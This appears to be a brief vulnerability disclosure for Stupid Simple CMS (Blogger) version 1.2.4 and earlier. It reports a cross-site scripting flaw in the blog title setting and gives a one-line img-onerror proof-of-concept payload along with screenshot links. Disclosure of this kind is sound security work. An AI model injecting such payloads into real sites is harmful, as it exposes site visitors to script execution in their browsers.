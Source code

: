 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


There is Cross-Site Scripting (XSS)  vulnerability within the blog title of the settings.

![1](https://github.com/Xin246/cms/assets/160984304/5a3ff1cc-ebcb-49b5-abd3-7fb95094d56f)


poc:
```
 "><img src=1 onerror=alert(1)> 

successed

![2](https://github.com/Xin246/cms/assets/160984304/027d9d2d-dd46-4467-b5d2-6ca2b578f762)
